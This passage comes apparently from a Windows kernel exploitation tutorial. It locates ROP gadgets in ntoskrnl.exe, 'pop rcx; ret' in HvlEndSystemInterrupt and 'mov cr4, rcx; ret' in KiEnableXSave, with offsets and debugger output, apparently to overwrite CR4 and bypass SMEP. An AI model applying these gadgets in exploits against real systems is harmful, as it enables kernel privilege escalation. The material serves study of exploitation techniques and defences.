 ```asm
pop rcx
ret
```

We can use a tool like [ROPgadget](https://github.com/JonathanSalwan/ROPgadget)

```bash
ROPgadget --binary /mnt/c/Windows/System32/ntoskrnl.exe | grep "pop rcx ; ret"
```

![](https://github.com/amitschendel/amitschendel.github.io/blob/master/assets/images/Pasted%20image%20220105142211.png?raw=true)

Unfortunately, at the time writing this part I didn't have a setup so I am going to use the offsets from h0mbre's blog.

As he states in his blog we can find the gadget we are after in `HvlEndSystemInterrupt` -

```
kd> uf HvlEndSystemInterrupt
nt!HvlEndSystemInterrupt:
fffff800`10dc1560 4851            push    rcx
fffff800`10dc1562 50              push    rax
fffff800`10dc1563 52              push    rdx
fffff800`10dc1564 65488b142588610000 mov   rdx,qword ptr gs:[6188h]
fffff800`10dc156d b970000040      mov     ecx,40000070h
fffff800`10dc1572 0fba3200        btr     dword ptr [rdx],0
fffff800`10dc1576 7206            jb      nt!HvlEndSystemInterrupt+0x1e (fffff800`10dc157e)

nt!HvlEndSystemInterrupt+0x18:
fffff800`10dc1578 33c0            xor     eax,eax
fffff800`10dc157a 8bd0            mov     edx,eax
fffff800`10dc157c 0f30            wrmsr

nt!HvlEndSystemInterrupt+0x1e:
fffff800`10dc157e 5a              pop     rdx
fffff800`10dc157f 58              pop     rax
fffff800`10dc1580 59              pop     rcx // Gadget at offset from nt: +0x146580
fffff800`10dc1581 c3              ret
```

We can set a value in `rcx` as we can see at the assembly.
The seconed gadget we are looking for is -

```asm
mov cr4, rcx
ret
```

The above gadget can be found at KiEnableXSave -

```
kd> uf nt!KiEnableXSave
nt!KiEnableXSave:

---SNIP---

nt! ?? ::OKHAJAOM::`string'+0x32fc:
fffff800`1105142c 480fbaf112      btr     rcx,12h
fffff800`11051431 0f22e1          mov     cr4,rcx // Gadget at offset from nt: +0x3D6431
fffff800`11051434 c3              ret
```
